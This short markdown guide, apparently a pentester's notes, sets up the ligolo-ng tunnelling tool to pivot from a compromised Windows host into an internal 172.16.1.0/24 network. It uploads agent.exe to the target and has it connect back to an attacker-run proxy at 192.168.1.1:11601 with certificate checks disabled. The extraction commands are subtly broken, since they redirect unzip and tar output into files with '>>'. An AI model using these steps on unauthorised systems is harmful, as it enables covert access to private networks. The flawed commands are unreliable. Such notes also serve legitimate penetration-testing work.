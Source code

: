 # ligolo-ng setup

## Preparation

### Download and Extract Ligolo-NG

```bash
unzip ligolo-ng_agent_0.7.2_windows_amd64.zip >> agent.exe
tar xvzf ligolo-ng_proxy_0.7.2_linux_arm64.tar.gz >> proxy
```

## Steps to Configure and Use Ligolo-NG

### 1. Upload the `agent.exe` to the Target System

Transfer the `agent.exe` file to the target machine.

### 2. Add Interface to Kali

```bash
sudo ip tuntap add user kali mode tun ligolo
```

### 3. Activate the Ligolo Network Adapter

```bash
sudo ip link set ligolo up
```

### 4. Run the Proxy Server on the Attacker Machine

```bash
./proxy -selfcert
```

### 5. Activate the Agent on the Target

On the target system, run:

```bash
.\agent.exe -connect 192.168.1.1:11601 -ignore-cert
```

### 6. Select Target Session

In the proxy console, use the `session` command to select the desired target session:

```bash
session
```

### 7. Add a New Route to the Proxy Server

```bash
sudo ip route add 172.16.1.0/24 dev ligolo
```

### 8. Verify Routes

Check the routes using the following command:

```bash
ip route
```

### 9. Start the Proxy Tunnel

```bash
start
```

### 10. Verify Connectivity

Ping the target network to confirm connectivity:

```bash
ping 172.16.1.1

